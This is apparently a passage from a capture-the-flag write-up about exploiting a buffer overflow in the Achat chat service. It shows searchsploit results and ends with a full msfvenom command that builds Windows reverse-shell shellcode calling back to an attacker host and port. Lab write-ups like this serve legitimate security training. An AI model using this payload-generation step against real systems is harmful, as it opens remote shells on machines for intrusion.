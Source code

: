 Nmap reveals that there are only two ports listening, and that they both relate to a service called "Achat".

## Searchsploit

Let's check the exploit database with searchsploit to see if we get any hits:

```
└─$ searchsploit achat                     
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                     | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                        | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities           | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                             | php/webapps/24647.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

There are only two exploits, which appear to be for the same vulnerability. Let's copy the python script and review it.

{% embed url="https://www.exploit-db.com/exploits/36025" %}

> searchsploit -m windows/remote/36025.py

## Structured Exception Handler Buffer Overflow

The code exploits a Structured Exception Handler (SEH) based stack buffer overflow. To learn more about this type of buffer overflow, check out the following page:

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow" %}

## Gaining Access

In order to use this exploit, we'll need to make some changes. First, we need to generate the shellcode. We can use msfvenom to do this as follows:

> msfvenom -a x86 --platform Windows -p windows/shell\_reverse\_tcp LHOST=10.10.14.7 LPORT=9999 -e x86/unicode\_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
